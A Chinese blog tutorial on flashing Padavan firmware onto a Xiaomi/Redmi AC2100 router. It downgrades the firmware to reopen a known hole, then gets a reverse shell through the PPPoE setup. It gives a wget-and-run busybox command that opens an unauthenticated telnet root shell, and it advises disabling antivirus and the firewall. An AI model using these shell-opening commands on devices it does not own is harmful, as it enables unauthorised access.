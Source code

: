 ```yaml
---
title: 小米AC2100路由器刷入Padavan固件
date: 2021-02-14 12:37:37
tags: [路由器,日常折腾]
categories: 日常折腾
---
```

&emsp;&emsp;注：小米AC2100，红米AC2100皆可使用。  
&emsp;&emsp;注：开始前请记好宽带拨号账号密码。

# 起因
&emsp;&emsp;最近发现只要一打开迅雷下载，即使在下载速度只有几K的情况下，路由器仍然会断网，有线Wifi全挂掉。  
&emsp;&emsp;看别人说是因为CPU跑满了，路由器宕机了。  
&emsp;&emsp;遂决定刷一下固件，选择了Hihoy的Padavan固件。

# 系统环境设置
## 1. 开启Telnet
&emsp;&emsp;`控制面板-程序-启用或关闭Windows功能`，启用`Telnet客户端`。

[![启用Telnet](https://s3.ax1x.com/2021/02/14/ysxi7j.png)](https://imgchr.com/i/ysxi7j)

## 2. 关闭防火墙和杀毒软件
&emsp;&emsp;关闭WindowsDefender防火墙和杀毒软件（如果有）。
## 3. 禁用其他网卡
&emsp;&emsp;只留下连接路由器的网卡接口。

# 准备软件
&emsp;&emsp;因为刷机过程就断网了，所以这些软件都要提前下好。
## 1. 下载路由器刷机工具
&emsp;&emsp;链接：https://pan.baidu.com/s/1cOQdsMNr4xqi3h8fqqMfbQ 提取码：8kw8。   
&emsp;&emsp;下载完成后解压，并安装文件夹下的`WinPcap_4_1_3.exe`。
## 2. 安装Winscp
&emsp;&emsp;https://winscp.net/eng/download.php
## 3. 安装Putty
&emsp;&emsp;https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
## 4. 路由器降级
&emsp;&emsp;由于路由器新版本固件封掉了刷机漏洞，直接刷是刷不进去的，会向下面这样抛异常（图片来自网络，我自己忘了截图了）。

[![高版本固件异常图](https://s3.ax1x.com/2021/02/14/ysxgv8.png)](https://imgchr.com/i/ysxgv8)

&emsp;&emsp;所以要先刷固件回到低版本，下载链接放在下面。  
&emsp;&emsp;链接：https://pan.baidu.com/s/16AxC6AGIiIOBq9b96xAS-w 提取码：eb84。 

## 5. 最新的Padavan刷机包

&emsp;&emsp;https://opt.cn2qq.com/padavan/

&emsp;&emsp;可以在里面搜索2100。小米路由器下载`R2100_3.4.3.9-099.trx`，红米路由器下载`RM2100_3.4.3.9-099.trx`。

# 开始刷入
## 1. 路由器降级
&emsp;&emsp;首先到路由器设置页面，在手动升级里面选择之前下载的低版本刷机包，随后会自动刷入并重启。

[![手动降级固件](https://s3.ax1x.com/2021/02/14/ysxbvT.png)](https://imgchr.com/i/ysxbvT)

## 2. 修改DHCP
&emsp;&emsp;在成功降级后，进入路由器设置页面，将路由器的地址设置为`192.168.31.1`。

## 3. 插线
&emsp;&emsp;将路由器的网线都拔掉，然后将WAN口连接到LAN1口（如果后面发现有问题，可以插到LAN3试一下），中间的LAN口连接电脑。

## 4. 设置电脑IP
&emsp;&emsp;将电脑的IP手动设置为`192.168.31.177`,子网掩码`255.255.255.0`，网关`192.168.31.1`。

## 5. 设置拨号
&emsp;&emsp;打开路由器的上网设置页面，上网方式设置为`PPPOE`，账号和密码都设置为123。

## 6. 刷入Breed
&emsp;&emsp;双击打开`一键开启telnet.bat`（不用管理员运行）。
[![解锁工具](https://s3.ax1x.com/2021/02/14/yszaR0.png)](https://imgchr.com/i/yszaR0)

&emsp;&emsp;按回车，会打开测试PPPOE数据包的窗口

[![成功监测到数据包](https://s3.ax1x.com/2021/02/14/yszdzV.png)](https://imgchr.com/i/yszdzV)

&emsp;&emsp;如果这里抛异常，路由器要降级固件。  
&emsp;&emsp;如果没有异常，返回第一个窗口按y，注意要输入小写。

&emsp;&emsp;随后会打开反弹shell窗口，等到提示`connect to [192.168.31.177] from (UNKNOWN) [192.168.31.1] 31290` 就代表反弹成功。

[![反弹成功](https://s3.ax1x.com/2021/02/14/yszRRx.png)](https://imgchr.com/i/yszRRx)

&emsp;&emsp;这时打开`开启telnet命令.txt`,复制其中的内容，也就是下面这行

>cd /tmp&&wget http://192.168.31.177:8081/busybox&&chmod a+x ./busybox&&./busybox telnetd -l /bin/sh

&emsp;&emsp;粘贴到窗口中，按ctrl+V是无效的，点右键即可粘贴，如果不行就在标题栏点右键粘贴，随后回车，出现如下图提示即代表Telnet解锁成功。

[![解锁Telnet](https://s3.ax1x.com/2021/02/14/yySSeg.png)](https://imgchr.com/i/yySSeg)

&emsp;&emsp;随后打开命令提示符，粘贴如下代码运行，请逐个粘贴运行。

>telnet 192.168.31.1  
>wget http://192.168.31.177:8081/r3g.bin&&nvram set uart_en=1&&nvram set bootdelay=5&&nvram set flag_try_sys1_failed=1&&nvram commit  
>mtd -r write r3g.bin kernel1

&emsp;&emsp;如果出现如下图的提示，则代表Breed刷入成功了，此时路由器会自动重启。

[![Breed刷入成功](https://s3.ax1x.com/2021/02/14/yySmmF.png)](https://imgchr.com/i/yySmmF)

## 7. 刷入Padavan

&emsp;&emsp;在路由器重启成功后，将电脑的IP地址改为自动获取，并拔掉路由器的电源，按住Reset按键并插入电源，10s后松开按钮即可。

&emsp;&emsp;注意，这里要检查电脑获取到的IP地址是否为`192.168.1.X`，如果是`169`开头的IP地址，代表自动获取失败，需要将IP地址手动设置为`192.168.1.X`网段，网关设置为`192.168.1.1`。

&emsp;&emsp;随后打开Winscp，连接192.168.1.1，协议是SCP，账号：root 或 admin 密码：admin。

&emsp;&emsp;然后上最上面的三点，切到主目录后，选择tmp文件夹，放进之前下载的最新固件`R2100_3.4.3.9-099.trx`。

&emsp;&emsp;完成后关闭Winscp，再打开Putty，输入192.168.1.1，账号：root 或 admin 密码：admin。

&emsp;&emsp;然后在出现的OP窗口里执行下边这句，注意要改成对应的文件名：

>mtd -r write /tmp/R2100_3.4.3.9-099.trx kernel

&emsp;&emsp;此时等待刷入padavan固件，完成后路由器会重启。

# 恢复现场
&emsp;&emsp;将网线插回正常状态，随后将电脑设置为自动获取IP，打开192.168.2.1 账号：root 或 admin 密码：admin 进入路由设置页面。

&emsp;&emsp;至此完成了Padavan的刷入，在`网络地图`里面设置好宽带的拨号，然后设置好wifi名称和密码即可。
